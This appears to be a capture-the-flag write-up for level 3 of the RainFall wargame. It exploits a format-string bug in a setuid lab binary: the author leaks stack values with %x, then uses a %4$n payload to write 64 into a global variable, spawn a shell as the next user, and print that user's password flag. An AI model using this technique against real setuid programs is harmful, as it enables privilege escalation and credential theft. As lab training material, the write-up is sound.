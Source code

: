 level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

we can exploit a format string 
https://www.exploit-db.com/exploits/23985

level3@RainFall:~$ ./level3 
%n
Segmentation fault (core dumped)
level3@RainFall:~$ ./level3 
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825


```
extern unsigned int m;
...
    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
```
                     
level3@RainFall:~$ ./level3 
AAAAAAAAAAAAAAAAAAA %x %x %x %x %x %x %x %x %x %x 
AAAAAAAAAAAAAAAAAAA 200 b7fd1ac0 b7ff37d0 41414141 41414141 41414141 41414141 20414141 25207825 78252078 

we can see that 
200 first value on the pile
then we have the adresse b7fd1ac0 and b7ff37d0 
and the character "A" (0x41) 
the value of fgets are set after the 3rd adress

   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax; 40 == 0x804988c 
m is set at 0x804988c

we can set value in m with the format %4$n; 
[::-1] will write in little endian
 + "A"*60 will add the remaining char to reach 64 


level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "A"*60 + "%4$n"' > input.txt
level3@RainFall:~$ cat input.txt - | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4

pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa